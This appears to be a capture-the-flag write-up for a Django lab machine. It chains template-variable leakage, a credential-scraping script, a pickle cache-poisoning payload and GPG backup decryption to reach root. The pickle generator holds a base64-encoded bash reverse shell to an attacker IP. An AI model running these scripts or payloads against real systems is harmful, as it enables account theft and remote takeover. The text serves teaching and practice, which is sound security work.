# HackNet 

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

## 🏁 Summary of Attack Chain

| Step | User / Access                   | Technique Used                                         | Result |
| :--- | :------------------------------ | :----------------------------------------------------- | :----- |
| 1    | `N/A`                           | **Nmap / Recon**                                       | Discovered open ports: `22` (SSH) and `80` (HTTP — nginx). App identified as a Django-based social network (HackNet). |
| 2    | `N/A`                           | **App fingerprinting (Django)**                        | Confirmed Django templating behavior (DTL) and endpoints for user actions: register, like, likes listing, profile edits. |
| 3    | `attacker (web)`                | **Template-context leakage (rendered `users`)**        | Controlled a username to inject `{{ users }}` and `{{ users.values }}` into a post/like rendering, leaking internal QuerySet / field dicts in the likes list. |
| 4    | `attacker (web)`                | **Automated scraping of leaked fields**                | Scripted likes + scrape of `` content to extract `'email'` and `'password'` fields from `users.values`. Collected many site credentials. |
| 5    | `attacker`                      | **Credentials enumeration / access**                   | Identified valid credentials (some site usernames mapped to mailbox prefixes). Used these to access site functionality and locate file paths / user-owned files (`user.txt`). |
| 6    | `attacker (www-data?)`          | **Cache poisoning — Django FileBasedCache + Pickle**   | Found `@cache_page(60)` in `explore` view. Generated a malicious pickle payload, wrote it into `.djcache` files, then triggered deserialization to achieve RCE (reverse shell). |
| 7    | `sandy` (local user discovered) | **Post-exploitation enumeration — discover user files & keys** | After RCE, enumerated web and home directories. Found `sandy` user and discovered `armored_key.asc` (GPG private key) and encrypted backup `.gpg` files in `/var/www/HackNet/backups`. |
| 8    | `attacker (with imported key)`  | **GPG private key import & bulk decrypt**              | Imported the `armored_key.asc` and used the passphrase hint to decrypt backup `.gpg` files. Extracted SQL/backup contents and plaintext credentials (database passwords, root credentials). |
| 9    | `root`                          | **Credential reuse / SSH login → root**                | Located credentials in decrypted backups (or found SSH root key) and authenticated as `root`. Retrieved `root.txt`. |


## Nmap

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN]
❯ nmap hacknet.htb -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: HackNet - social network for hackers
```

> Check the technology stack using Django


## Django — Application Overview

* Register a user and you can perform operations:

  * Modify personal information (change name, signature, upload avatar)
  * Leave a message to others/yourself
  * Like others

* Note: In this environment we will not consider file uploads.

### Django Template Engine (DTL) notes

* Django default template (DTL) does **not** execute Python expressions.
* Expressions like `{{7*7}}`, `{{os.environ}}`, `{{().__class__}}` will not execute.
* DTL only renders variables present in the template context (e.g., `{{ user }}`, `{{ request }}`, `{{ settings.DEBUG }}`).
* True SSTI requires a template engine that executes expressions (for example Jinja2).

> In pure DTL mode, you can only leak context variables — not run system commands — unless the app uses a different template engine.


## Observed SSTI-like leakage via user-controlled fields

* Some user homepages show blocked information. Changing the username to `{{ users }}` renders the `users` variable in a likes list.



Example in source:

```
<QuerySet [
    <SocialUser: cyberghost>,
    <SocialUser: shadowcaster>,
    <SocialUser: glitch>,
    <SocialUser: netninja>,
    <SocialUser: exploit_wizard>,
    <SocialUser: whitehat>,
    <SocialUser: deepdive>,
    <SocialUser: virus_viper>,
    <SocialUser: brute_force>,
    <SocialUser: {{ users }}>
]>
```

* Use `{{ users.values }}` to render a list of field dictionaries for users in the likes list.



* The rendered users list is only for the current post's likes — you need to like posts and then check the likes list.


## Automated credential harvesting script

* The following Python script automates liking posts and scraping the likes pages for leaked `email` and `password` fields inside rendered HTML (often inside `img` title attributes).

```python
import re
import requests
import html

url = "http://hacknet.htb"
headers = {
    'Cookie': "csrftoken=uXXXXXXXXXXXXXXXXXXXXXXXXXXXf; sessionid=XXXXXXXXXXXXXXXXXXXXXXXXXXX"
}

all_users = set()

for i in range(1, 31):

    requests.get(f"{url}/like/{i}", headers=headers)

    text = requests.get(f"{url}/likes/{i}", headers=headers).text


    img_titles = re.findall(r']*title="([^"]*)"', text)
    if not img_titles:
        continue
    last_title = html.unescape(img_titles[-1])


    if "<QuerySet" not in last_title:
        requests.get(f"{url}/like/{i}", headers=headers)
        text = requests.get(f"{url}/likes/{i}", headers=headers).text
        img_titles = re.findall(r']*title="([^"]*)"', text)
        if img_titles:
            last_title = html.unescape(img_titles[-1])

    
    emails = re.findall(r"'email': '([^']*)'", last_title)
    passwords = re.findall(r"'password': '([^']*)'", last_title)

   
    for email, p in zip(emails, passwords):
        username = email.split('@')[0]  
        all_users.add(f"{username}:{p}")


for item in all_users:
    print(item)
```

* Example output (usernames:passwords) after running the script:

```
chma:chma123
zero_day:Zer0D@yH@ck
glitch:Gl1tchH@ckz
shadowmancer:Sh@d0wM@ncer
virus_viper:V!rusV!p3r2024
stealth_hawk:St3@lthH@wk
cryptoraven:CrYptoR@ven42
rootbreaker:R00tBr3@ker#
asd:asd
netninja:N3tN1nj@2024
shadowwalker:Sh@dowW@lk2024
phreaker:Phre@k3rH@ck
datadive:D@taD1v3r
codebreaker:C0d3Br3@k!
test:test
z0n:z0n
shadowcaster:Sh@d0wC@st!
mikey:<Find me>
exploit_wizard:Expl01tW!zard
whitehat:Wh!t3H@t2024
trojanhorse:Tr0j@nH0rse!
packetpirate:P@ck3tP!rat3
brute_force:BrUt3F0rc3#
hexhunter:H3xHunt3r!
bytebandit:Byt3B@nd!t123
blackhat_wolf:Bl@ckW0lfH@ck
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
deepdive:D33pD!v3r
```



* Note: Some usernames may not map directly to system users (e.g., SSH logins), but email prefixes are valid site usernames.






## FileBasedCache — Cache exploitation (Django)

* In the app source we find the `explore` view (decorated with `@cache_page(60)`), which stores rendered results in Django's cache directory.





```python
@cache_page(60)
def explore(request):
    if not "email" in request.session.keys():
        return redirect("index")

    session_user = get_object_or_404(SocialUser, email=request.session['email'])

    page_size = 10
    keyword = ""

    if "keyword" in request.GET.keys():
        keyword = request.GET['keyword']
        posts = SocialArticle.objects.filter(text__contains=keyword).order_by("-date")
    else:
        posts = SocialArticle.objects.all().order_by("-date")

    pages = ceil(len(posts) / page_size)

    if "page" in request.GET.keys() and int(request.GET['page']) > 0:
        post_start = int(request.GET['page'])*page_size-page_size
        post_end = post_start + page_size
        posts_slice = posts[post_start:post_end]
    else:
        posts_slice = posts[:page_size]

    news = get_news()
    request.session['requests'] = session_user.contact_requests
    request.session['messages'] = session_user.unread_messages

    for post_item in posts:
        if session_user in post_item.likes.all():
            post_item.is_like = True

    posts_filtered = []
    for post in posts_slice:
        if not post.author.is_hidden or post.author == session_user:
            posts_filtered.append(post)
        for like in post.likes.all():
            if like.is_hidden and like != session_user:
                post.likes_number -= 1

    context = {"pages": pages, "posts": posts_filtered, "keyword": keyword, "news": news, "session_user": session_user}

    return render(request, "SocialNetwork/explore.html", context)
```

* `cache_page(60)` means the rendered view is cached for 60 seconds — Django's FileBasedCache (or other backends) writes serialized return values to files.

* **Security risk:** if the cache directory is writable by an attacker and Django reads pickled content directly, an attacker can place a malicious pickle file that will be deserialized and executed, leading to RCE.


## Exploitation plan — cache poisoning via pickle

* Steps:

  1. Visit `/explore` as an authenticated user to generate a cache file.
  2. Construct a malicious pickle payload that executes a command on deserialization.
  3. Write the payload into the cache file(s) (e.g., `/var/tmp/django_cache/*.djcache`).
  4. Re-access `/explore` to trigger deserialization and execute the payload.

### Pickle payload generator (Python)

```python
import pickle
import base64
import os
import time


cache_dir = "/var/tmp/django_cache"
cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxKSAm|base64 -d|bash"


class RCE:
    def __reduce__(self):
        return (os.system, (cmd,),)

payload = pickle.dumps(RCE())


for filename in os.listdir(cache_dir):
    if filename.endswith(".djcache"):
        path = os.path.join(cache_dir, filename)
        try:
            os.remove(path)  
        except:
            continue
        with open(path, "wb") as f:
            f.write(payload)  
        print(f"[+] Written payload to {filename}")
```



* The `cmd` above decodes a base64 payload that runs a reverse shell to the attacker (update IP/PORT as needed).
* After writing the malicious `.djcache` files, requesting `/explore` will load the cached content and deserialize the malicious pickle, executing the command.



## Privilege escalation / Gaining root

* After successful exploitation you obtain the `sandy` user shell (user found in website files).



* Inside `sandy`'s directory you find GPG private key(s) and backup files.



### GPG private key: `armored_key.asc`





* The key is armored and may be password-protected. The noted passphrase in findings: `Place Me here` (observed in `mikey` entry above).

* Example flow: import private key, decrypt backup `.gpg` files, inspect database backups to recover credentials and/or secrets.


## Batch decryption script (bash)

```bash
#!/bin/bash


KEY_PATH="$HOME/.gnupg/private-keys-v1.d/armored_key.asc"
BACKUP_DIR="/var/www/HackNet/backups"
OUTPUT_DIR="/tmp"
PASSPHRASE="Place Me here" 

# 导入私钥
gpg --import "$KEY_PATH"

# 批量解密
for file in "$BACKUP_DIR"/*.gpg; do
    filename=$(basename "$file" .gpg)
    outpath="$OUTPUT_DIR/$filename.sql"
    echo "[*] Decrypting $file → $outpath"
    if [ -n "$PASSPHRASE" ]; then
        gpg --batch --yes --passphrase "$PASSPHRASE" --pinentry-mode loopback -o "$outpath" -d "$file"
    else
        gpg --batch --yes -o "$outpath" -d "$file"
    fi
done

echo "[*] Done. Decrypted files are in $OUTPUT_DIR"
```



* After decryption, pipe or grep the SQL files to find credentials (e.g., `cat backup0* | grep password`).





## Final notes / Observations

* The combination of template leakage (rendered `users` context) and writable cache allowed information disclosure and a path to RCE via pickle-based cache poisoning.
* The presence of backups and a private GPG key in a user directory allowed pivoting to root by decrypting backups and extracting credentials.
* Always ensure cache directories are non-writable by untrusted users and avoid deserializing untrusted data. Use safe serializers (JSON) for caching where possible.


**!Pwned Hacknet**
